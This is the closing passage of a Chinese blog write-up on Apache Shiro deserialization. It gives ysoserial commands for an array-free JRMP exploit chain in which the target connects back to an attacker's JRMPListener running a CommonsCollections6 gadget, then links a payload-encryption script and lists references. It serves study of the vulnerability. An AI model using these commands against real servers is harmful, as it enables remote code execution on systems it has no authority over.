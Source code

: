 ### <a class="reference-link" name="0x5%20%E6%97%A0%E6%95%B0%E7%BB%84%E5%9E%8BJRMP%E5%88%A9%E7%94%A8%E9%93%BE"></a>0x5 无数组型JRMP利用链

**使用场景**<br>
目标可以出网，不需要任何依赖

本地先用ysoserial起一个JRMPListener：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 'touch /tmp/xsdfa'
```

再执行

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient "192.168.0.102:1099" &gt; /tmp/1.txt
cat /tmp/1.txt|base64
python3 crypt1.py base64Content
```

[![](https://p3.ssl.qhimg.com/t011d2a4e0fbb81589d.png)](https://p3.ssl.qhimg.com/t011d2a4e0fbb81589d.png)

crypt1.py 脚本链接 [https://github.com/BabyTeam1024/shiro_vul](https://github.com/BabyTeam1024/shiro_vul)



## 0x06 总结

从shiro 反序列化中学习到了classloader在加载类的时候的一些知识，打算有时间单独学习总结下，在这次学习过程中又再一次感受到了反序列化的艺术魅力，文笔粗糙，有啥知识点描述不对的地方还请大家指正。



## 0x07 参考文献

[https://blog.zsxsoft.com/post/35](https://blog.zsxsoft.com/post/35)<br>[https://xz.aliyun.com/t/7950](https://xz.aliyun.com/t/7950#toc-3)<br>[https://www.faiz2035.top/posts/shiro-550-simple-analysis-2/](https://www.faiz2035.top/posts/shiro-550-simple-analysis-2/)<br>[https://www.anquanke.com/post/id/192619](https://www.anquanke.com/post/id/192619)<br>[https://juejin.cn/post/6844904114543919111](https://juejin.cn/post/6844904114543919111)<br>[https://www.zhihu.com/question/46719811](https://www.zhihu.com/question/46719811)<br>[https://buaq.net/go-38939.html](https://buaq.net/go-38939.html)
